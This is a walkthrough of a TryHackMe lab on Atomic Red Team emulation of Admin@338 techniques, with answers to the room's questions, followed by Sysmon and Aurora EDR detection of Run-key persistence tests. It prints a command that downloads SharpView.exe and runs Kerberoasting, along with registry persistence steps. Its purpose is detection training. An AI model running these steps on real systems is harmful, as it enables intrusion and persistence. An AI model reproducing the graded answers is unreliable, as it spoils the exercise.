

Our steps should reflect all techniques we want to emulate from our selected threat group.

**Emulation of Admin@338 Group**

The following action is to list all techniques highlighted from the ATT&CK Navigator. It is essential to take note of the Tactic, Technique and its corresponding Technique ID, as every Atomic is named with the Technique ID. You may hover the mouse icon in the techniques to see the technique ID. Below is the summarised results we got from ATT&CK Navigator.

|Tactic|Technique ID|Technique|
|----|----|----|
|Initial Access|T1566.001|Spearphishing Attachment|
|Execution|T1203|Exploitation for Client Execution|
|Execution|T1059.003|Command and Scripting Interpreter: Windows Command Shell|
|Discovery|T1083|File and Directory Discovery|
|Discovery|T1082|System Information Discovery|
|Discovery|T1016|System Network Configuration Discovery|
|Discovery|T1049|System Network Connections Discovery|
|Discovery|T1007|System Service Discovery|
|Discovery|T1087.001|Account Discovery: Local Account|

We have extracted nine (9) out of all the techniques in MITRE ATT&CK. The next thing we need to do is to determine if an Atomic exists for these techniques.

```powershell
PS C:\Users\Administrator>ls C:\Tools\AtomicRedTeam\atomics | Where-Object Name -Match "T1566.001|T1203|T1059.003|T1083|T1082|T1016|T1049|T1007|T1087.001"


    Directory: C:\Tools\AtomicRedTeam\atomics


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----         1/3/2023   5:20 PM                T1007
d-----         1/3/2023   5:20 PM                T1016
d-----         1/3/2023   5:20 PM                T1049
d-----         1/3/2023   5:20 PM                T1059.003
d-----         1/3/2023   5:20 PM                T1082
d-----         1/3/2023   5:20 PM                T1083
d-----         1/3/2023   5:20 PM                T1087.001
d-----         1/3/2023   5:21 PM                T1566.001
```

Eight out of nine techniques are available to be emulated. Before executing the tests, we must verify each technique and list all known tests for each Atomic.

```powershell
PS C:\Users\Administrator> 'T1566.001','T1059.003','T1083','T1082','T1016','T1049','T1007','T1087.001' | ForEach-Object {echo "Enumerating $_"; Invoke-AtomicTest $_ -ShowDetailsBrief }
Enumerating T1566.001
PathToAtomicsFolder = C:\Tools\AtomicRedTeam\atomics

T1566.001-1 Download Macro-Enabled Phishing Attachment
T1566.001-2 Word spawned a command shell and used an IP address in the command line
Enumerating T1059.003
PathToAtomicsFolder = C:\Tools\AtomicRedTeam\atomics

T1059.003-1 Create and Execute Batch Script
T1059.003-2 Writes text to a file and displays it.
T1059.003-3 Suspicious Execution via Windows Command Shell
T1059.003-4 Simulate BlackByte Ransomware Print Bombing
T1059.003-5 Command Prompt read contents from CMD file and execute
Enumerating T1083
PathToAtomicsFolder = C:\Tools\AtomicRedTeam\atomics

T1083-1 File and Directory Discovery (cmd.exe)
T1083-2 File and Directory Discovery (PowerShell)
T1083-5 Simulating MAZE Directory Enumeration
T1083-6 Launch DirLister Executable
Enumerating T1082
PathToAtomicsFolder = C:\Tools\AtomicRedTeam\atomics

T1082-1 System Information Discovery
T1082-6 Hostname Discovery (Windows)
T1082-8 Windows MachineGUID Discovery
--- redacted for brevity ---
```

In addition, we need to check the prerequisites of each Atomic before starting the emulation.

```powershell
PS C:\Users\Administrator>'T1566.001','T1059.003','T1083','T1082','T1016','T1049','T1007','T1087.001' | ForEach-Object {echo "Enumerating $_"; Invoke-AtomicTest $_ -CheckPrereqs }
Enumerating T1566.001
PathToAtomicsFolder = C:\Tools\AtomicRedTeam\atomics

CheckPrereq's for: T1566.001-1 Download Macro-Enabled Phishing Attachment
Prerequisites met: T1566.001-1 Download Macro-Enabled Phishing Attachment
CheckPrereq's for: T1566.001-2 Word spawned a command shell and used an IP address in the command line
Prerequisites not met: T1566.001-2 Word spawned a command shell and used an IP address in the command line
        [*] Microsoft Word must be installed

Try installing prereq's with the -GetPrereqs switch
Enumerating T1059.003
PathToAtomicsFolder = C:\Tools\AtomicRedTeam\atomics

CheckPrereq's for: T1059.003-1 Create and Execute Batch Script
Prerequisites not met: T1059.003-1 Create and Execute Batch Script
        [*] Batch file must exist on disk at specified location ($env:TEMP\T1059.003_script.bat)

Try installing prereq's with the -GetPrereqs switch
CheckPrereq's for: T1059.003-2 Writes text to a file and displays it.
Prerequisites met: T1059.003-2 Writes text to a file and displays it.
CheckPrereq's for: T1059.003-3 Suspicious Execution via Windows Command Shell
Prerequisites met: T1059.003-3 Suspicious Execution via Windows Command Shell
CheckPrereq's for: T1059.003-4 Simulate BlackByte Ransomware Print Bombing
Prerequisites not met: T1059.003-4 Simulate BlackByte Ransomware Print Bombing
        [*] File to print must exist on disk at specified location ($env:temp\T1059_003note.txt)

Try installing prereq's with the -GetPrereqs switch
CheckPrereq's for: T1059.003-5 Command Prompt read contents from CMD file and execute
Prerequisites met: T1059.003-5 Command Prompt read contents from CMD file and execute
Enumerating T1083
PathToAtomicsFolder = C:\Tools\AtomicRedTeam\atomics

CheckPrereq's for: T1083-1 File and Directory Discovery (cmd.exe)
Prerequisites met: T1083-1 File and Directory Discovery (cmd.exe)
CheckPrereq's for: T1083-2 File and Directory Discovery (PowerShell)
Prerequisites met: T1083-2 File and Directory Discovery (PowerShell)
CheckPrereq's for: T1083-5 Simulating MAZE Directory Enumeration
Prerequisites met: T1083-5 Simulating MAZE Directory Enumeration
CheckPrereq's for: T1083-6 Launch DirLister Executable
Prerequisites not met: T1083-6 Launch DirLister Executable
        [*] DirLister.exe must exist in the specified path C:\Tools\AtomicRedTeam\atomics\T1083\bin\DirLister.exe

Try installing prereq's with the -GetPrereqs switch
--- redacted for brevity ---
```

Given the number of tests for each Atomic, as shown above, we will only select one for brevity. Let's also focus on the tests that have met the prerequisites.

- **T1059.003-3** - Suspicious Execution via Windows Command Shell
- **T1083-1** - File and Directory Discovery (cmd.exe)
- **T1082-6** - Hostname Discovery (Windows)
- **T1016-1** - System Network Configuration Discovery on Windows
- **T1049-1** - System Network Connections Discovery
- **T1007-2** - System Service Discovery - net.exe
- **T1087.001-9** - Enumerate all accounts via PowerShell (Local)
- **T1566.001-1** - Download Macro-Enabled Phishing Attachment

The only thing left now is to emulate the Atomics. Unlike the PowerShell command snippets above, we will only execute the tests one at a time. This is to observe the emulation and not be overwhelmed by the terminal output.

```powershell
PS C:\Users\Administrator>Invoke-AtomicTest T1059.003-3
```

Continue the execution of the remaining Atomic tests to answer the questions below.

---------------------------------------------------------------------------------------

#### Using the ATT&CK Navigator, how many techniques are attributed to admin@338?

From the table above.

Answer: `9`

#### Using the mapping provided by the ATT&CK Navigator, what is the Technique ID of the phishing technique used by the threat group?

From the table above.

Answer: `T1566.001`

#### How many Atomic tests on Atomic T1083 are supported on Windows hosts?

```powershell
PS C:\Users\Administrator> Invoke-AtomicTest T1083 -CheckPrereqs
PathToAtomicsFolder = C:\Tools\AtomicRedTeam\atomics

CheckPrereq's for: T1083-1 File and Directory Discovery (cmd.exe)
Prerequisites met: T1083-1 File and Directory Discovery (cmd.exe)
CheckPrereq's for: T1083-2 File and Directory Discovery (PowerShell)
Prerequisites met: T1083-2 File and Directory Discovery (PowerShell)
CheckPrereq's for: T1083-5 Simulating MAZE Directory Enumeration
Prerequisites met: T1083-5 Simulating MAZE Directory Enumeration
CheckPrereq's for: T1083-6 Launch DirLister Executable
Prerequisites not met: T1083-6 Launch DirLister Executable
        [*] DirLister.exe must exist in the specified path C:\Tools\AtomicRedTeam\atomics\T1083\bin\DirLister.exe

Try installing prereq's with the -GetPrereqs switch
```

Maybe some changes has happend to the machine because `3` isn't the answer according to THM!?

Answer: `4`

#### What file should exist to satisfy the prerequisite of Atomic Test T1049-4?

```powershell
PS C:\Users\Administrator> Invoke-AtomicTest T1049 -TestNumbers 4 -ShowDetails
PathToAtomicsFolder = C:\Tools\AtomicRedTeam\atomics

[********BEGIN TEST*******]
Technique: System Network Connections Discovery T1049
Atomic Test Name: System Discovery using SharpView
Atomic Test Number: 4
Atomic Test GUID: 96f974bb-a0da-4d87-a744-ff33e73367e9
Description: Get a listing of network connections, domains, domain users, and etc.   sharpview.exe located in the bin folder, an opensource red-team tool. Upon successful execution, cmd.exe will execute sharpview.exe <method>. Results will output via stdout.

Attack Commands:
Executor: powershell
ElevationRequired: True
Command:
$syntaxList = #{syntax}
foreach ($syntax in $syntaxList) {
#{SharpView} $syntax -}
Command (with inputs):
$syntaxList = "Invoke-ACLScanner", "Invoke-Kerberoast", "Find-DomainShare"

foreach ($syntax in $syntaxList) {
C:\Tools\AtomicRedTeam\atomics\T1049\bin\SharpView.exe $syntax -}

Dependencies:
Description: Sharpview.exe must exist on disk at specified location (C:\Tools\AtomicRedTeam\atomics\T1049\bin\SharpView.exe)
Check Prereq Command:
if (Test-Path #{SharpView}) {exit 0} else {exit 1}
Check Prereq Command (with inputs):
if (Test-Path C:\Tools\AtomicRedTeam\atomics\T1049\bin\SharpView.exe) {exit 0} else {exit 1}
Get Prereq Command:
New-Item -Type Directory (split-path #{SharpView}) -ErrorAction ignore | Out-Null
Invoke-WebRequest #{SharpView_url} -OutFile "#{SharpView}"
Get Prereq Command (with inputs):
New-Item -Type Directory (split-path C:\Tools\AtomicRedTeam\atomics\T1049\bin\SharpView.exe) -ErrorAction ignore | Out-Null
Invoke-WebRequest https://github.com/tevora-threat/SharpView/blob/b60456286b41bb055ee7bc2a14d645410cca9b74/Compiled/SharpView.exe?raw=true -OutFile "C:\Tools\AtomicRedTeam\atomics\T1049\bin\SharpView.exe"
[!!!!!!!!END TEST!!!!!!!]
```

Answer: `SharpView.exe`

#### What is the echoed string upon executing Atomic Test T1059.003-3?

```powershell
PS C:\Users\Administrator> Invoke-AtomicTest T1059.003 -TestNumbers 3
PathToAtomicsFolder = C:\Tools\AtomicRedTeam\atomics

Executing test: T1059.003-3 Suspicious Execution via Windows Command Shell
Hello, from CMD!
Done executing test: T1059.003-3 Suspicious Execution via Windows Command Shell
```

Answer: `Hello, from CMD!`

#### What is the hostname of the machine based on Atomic Test T1082-6?

```powershell
PS C:\Users\Administrator> Invoke-AtomicTest T1082 -TestNumbers 6
PathToAtomicsFolder = C:\Tools\AtomicRedTeam\atomics

Executing test: T1082-6 Hostname Discovery (Windows)
ATOMIC
Done executing test: T1082-6 Hostname Discovery (Windows)
```

Answer: `ATOMIC`

#### How many accounts are disabled based on Atomic Test T1087.001-9?

```powershell
PS C:\Users\Administrator> Invoke-AtomicTest T1087.001 -TestNumbers 9
PathToAtomicsFolder = C:\Tools\AtomicRedTeam\atomics

Executing test: T1087.001-9 Enumerate all accounts via PowerShell (Local)
User accounts for \\ATOMIC
-------------------------------------------------------------------------------
Administrator            DefaultAccount           Guest
WDAGUtilityAccount
The command completed successfully.
Currently stored credentials:
<---snip--->
*Users
The command completed successfully.
Name               Enabled Description
----               ------- -----------
Administrator      True    Built-in account for administering the computer/domain
DefaultAccount     False   A user account managed by the system.
Guest              False   Built-in account for guest access to the computer/domain
WDAGUtilityAccount False   A user account managed and used by the system for Windows Defender Application Guard scen...
Name            : NT AUTHORITY\Authenticated Users
SID             : S-1-5-11
<---snip--->
PrincipalSource : Local
ObjectClass     : Group
Done executing test: T1087.001-9 Enumerate all accounts via PowerShell (Local)
```

Answer: `3`

### Task 5 - Emulation to Detection

From the previous tasks, we learned to operate with the Atomic Red Team framework and emulate different techniques across the mapping of MITRE ATT&CK. Now, let's wear our blue team hat and apply the benefits of threat emulation in detection engineering.

#### Observing Telemetry

The easiest way to understand different TTPs is to see them first-hand. We will learn and observe how techniques work by checking the events/logs generated by the Atomic tests. For this section, let's use the tests from Atomic **T1547.001**, which is all about [Boot or Logon Autostart Execution: Registry Run Keys / Startup Folder](https://attack.mitre.org/techniques/T1547/001/).

```powershell
PS C:\Users\Administrator> Invoke-AtomicTest T1547.001 -CheckPrereqs
PathToAtomicsFolder = C:\Tools\AtomicRedTeam\atomics

CheckPrereq's for: T1547.001-1 Reg Key Run
Prerequisites met: T1547.001-1 Reg Key Run
CheckPrereq's for: T1547.001-2 Reg Key RunOnce
Prerequisites met: T1547.001-2 Reg Key RunOnce
CheckPrereq's for: T1547.001-3 PowerShell Registry RunOnce
Prerequisites met: T1547.001-3 PowerShell Registry RunOnce
CheckPrereq's for: T1547.001-4 Suspicious vbs file run from startup Folder
Prerequisites met: T1547.001-4 Suspicious vbs file run from startup Folder
CheckPrereq's for: T1547.001-5 Suspicious jse file run from startup Folder
Prerequisites met: T1547.001-5 Suspicious jse file run from startup Folder
CheckPrereq's for: T1547.001-6 Suspicious bat file run from startup Folder
Prerequisites met: T1547.001-6 Suspicious bat file run from startup Folder
CheckPrereq's for: T1547.001-7 Add Executable Shortcut Link to User Startup Folder
Prerequisites met: T1547.001-7 Add Executable Shortcut Link to User Startup Folder
CheckPrereq's for: T1547.001-8 Add persistance via Recycle bin
Prerequisites met: T1547.001-8 Add persistance via Recycle bin
CheckPrereq's for: T1547.001-9 SystemBC Malware-as-a-Service Registry
Prerequisites met: T1547.001-9 SystemBC Malware-as-a-Service Registry
CheckPrereq's for: T1547.001-10 Change Startup Folder - HKLM Modify User Shell Folders Common Startup Value
Prerequisites met: T1547.001-10 Change Startup Folder - HKLM Modify User Shell Folders Common Startup Value
CheckPrereq's for: T1547.001-11 Change Startup Folder - HKCU Modify User Shell Folders Startup Value
Prerequisites met: T1547.001-11 Change Startup Folder - HKCU Modify User Shell Folders Startup Value
CheckPrereq's for: T1547.001-12 HKCU - Policy Settings Explorer Run Key
Prerequisites met: T1547.001-12 HKCU - Policy Settings Explorer Run Key
CheckPrereq's for: T1547.001-13 HKLM - Policy Settings Explorer Run Key
Prerequisites met: T1547.001-13 HKLM - Policy Settings Explorer Run Key
CheckPrereq's for: T1547.001-14 HKLM - Append Command to Winlogon Userinit KEY Value
Prerequisites met: T1547.001-14 HKLM - Append Command to Winlogon Userinit KEY Value
CheckPrereq's for: T1547.001-15 HKLM - Modify default System Shell - Winlogon Shell KEY Value
Prerequisites met: T1547.001-15 HKLM - Modify default System Shell - Winlogon Shell KEY Value
CheckPrereq's for: T1547.001-16 secedit used to create a Run key in the HKLM Hive
Prerequisites met: T1547.001-16 secedit used to create a Run key in the HKLM Hive
```

There are sixteen available tests for this Atomic, and all have prerequisites met. All of the tests can be executed without any problems.

**Sysmon**

For this task, we will view logs generated by Atomics through Sysmon. Let's fire up the Event Viewer and navigate to `Applications and Services` > `Microsoft` > `Windows` > `Sysmon` -> `Operational`. Once done, clear the existing records and start executing the first test.

```powershell
PS C:\Users\Administrator> Invoke-AtomicTestT1547.001 -TestNumbers 1
PathToAtomicsFolder = C: \Tools\AtomicRedTeam\atomics

Executing test: T1547.001-1 Reg Key Run
The operation completed successfully
Done executing test: T1547.001-1 Reg Key Run
```

Refresh the Event Viewer to view the latest updates, and always clear the logs before executing the next Atomic test.



**Note**: Log clearing will only be practical if the emulation is done in a test environment. You may not have the luxury of clearing the logs in a production setup. This may require an additional understanding of the Atomic breakdown before executing it to know what logs are expected to appear.

Upon completing Atomic Test **T1547.001-1**, it generated five records. We can ignore the first two logs as it is part of **Invoke-AtomicTest**'s execution; hence we can overlook the execution of the following binaries with PowerShell being its parent process throughout this task:

- whoami.exe
- hostname.exe





Ignoring the first two entries, we are left with three logs generated by the emulated Atomic test. The following three entries are Process Create events (Sysmon Event ID 1) and a single Registry Value Set event (Sysmon Event ID 13).

**Process Create Logs**





**Registry Value Set Log**



Based on the images above, we can summarise the events generated by Atomic test T1547.001-1 with the following information:

- The test generated three significant events: two Process Create events and one Registry Value Set event.
- The two Process Create events are caused by the execution of the **reg.exe** binary via the **cmd.exe /c** parameter.
- For this type of attack, the **reg.exe** binary is being utilised by threat actors to modify the registry key **\SOFTWARE\Microsoft\Windows\CurrentVersion\Run**.
- Lastly, the Registry Value points to a malicious binary (`C:\Path\AtomicRedTeam.exe`), which indicates that the binary will be executed during user logon.

We have successfully reflected the first Atomic Test via Sysmon logs. Let's continue emulating the subsequent tests with Aurora EDR to test its detection capabilities.

#### Aurora EDR

**Note**: If you are unfamiliar with Aurora EDR, you may proceed with [this room](https://tryhackme.com/room/auroraedr) first.

For a quick recap, Aurora is a Windows endpoint agent that uses Sigma rules and Indicators of Compromise (IOCs) to detect threat patterns on local event streams using Event Tracing for Windows (ETW). It is easy to correlate our previous learnings because Sigma rules are associated with the MITRE ATT&CK framework.

To run Aurora, open a PowerShell window. Then navigate to **C:\Tools\Aurora** and execute **aurora-agent-64.exe**.

```bat
C:\Users\Administrator>cd C:\Tools\Aurora
C:\Tools\Aurora> .\aurora-agent-64.exe
```

Wait for the message that states **Aurora Agent started** before going back to the execution of Atomic Test **T1547.001-2**. Once the tool has successfully loaded, proceed to the next Atomic Test.

```powershell
PS C:\Users\Administrator> Invoke-AtomicTest T1547.001 -TestNumbers 2
PathToAtomicsFolder = C:\Tools\AtomicRedTeam\atomics

Executing test: T1547.001-2 Reg Key RunOnce
The operation completed successfully.
Done executing test: T1547.001-2 Reg Key RunOnce
```

After execution, you may observe that the window running Aurora EDR has generated several detections related to **Registry Modification**.

**Note**: You may ignore the detection of whoami.exe, as shown in the first two detection logs.





The results summarise the following information:

- Sigma Rule Title, Description, and Notable False Positives
- Sigma match strings used
- Execution details such as Process Names, Command-line parameters and Hashes

The execution above is an excellent example of testing deployed rules by utilising the Atomic Red Team for threat emulation. Moving forward, you may use the methodology gained from this task to test and improve your existing detection rules.

Now, continue emulating the remaining tests to answer the questions below.

---------------------------------------------------------------------------------------

#### How many Sysmon events are generated after executing Atomic Test T1547.001-4?

```powershell
PS C:\Users\Administrator> Invoke-AtomicTest T1547.001 -TestNumbers 4
PathToAtomicsFolder = C:\Tools\AtomicRedTeam\atomics

Executing test: T1547.001-4 Suspicious vbs file run from startup Folder
Microsoft (R) Windows Script Host Version 5.812
Copyright (C) Microsoft Corporation. All rights reserved.
T1547.001 Hello, World VBS!
Microsoft (R) Windows Script Host Version 5.812
Copyright (C) Microsoft Corporation. All rights reserved.
T1547.001 Hello, World VBS!
Done executing test: T1547.001-4 Suspicious vbs file run from startup Folder
```



Answer: `14`

#### Based on the same events from Q1, what is the file name created by the test?



Answer: `vbsstartup.vbs`

#### Based on the Registry Value Set event generated after executing Atomic Test T1547.001-13, what is the value of the TargetObject field?

```powershell
PS C:\Users\Administrator> Invoke-AtomicTest T1547.001 -TestNumbers 13
PathToAtomicsFolder = C:\Tools\AtomicRedTeam\atomics

Executing test: T1547.001-13 HKLM - Policy Settings Explorer Run Key
Hive: HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer
Name                           Property
----                           --------
Run
Done executing test: T1547.001-13 HKLM - Policy Settings Explorer Run Key
```



Answer: `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\Explorer\Run\atomictest`

#### Excluding the WHOAMI detection, what is the title of the first rule triggered on Aurora EDR after executing Atomic Test T1547.001-7?

```powershell
PS C:\Users\Administrator> Invoke-AtomicTest T1547.001 -TestNumbers 7
PathToAtomicsFolder = C:\Tools\AtomicRedTeam\atomics

Executing test: T1547.001-7 Add Executable Shortcut Link to User Startup Folder
Done executing test: T1547.001-7 Add Executable Shortcut Link to User Startup Folder
```



Answer: `PowerShell Writing Startup Shortcuts`

#### Excluding the WHOAMI detection, what is the title of the first rule triggered on Aurora EDR after executing Atomic Test T1547.001-8?

```powershell
PS C:\Users\Administrator> Invoke-AtomicTest T1547.001 -TestNumbers 8
PathToAtomicsFolder = C:\Tools\AtomicRedTeam\atomics

Executing test: T1547.001-8 Add persistance via Recycle bin
The operation completed successfully.
Done executing test: T1547.001-8 Add persistance via Recycle bin
```

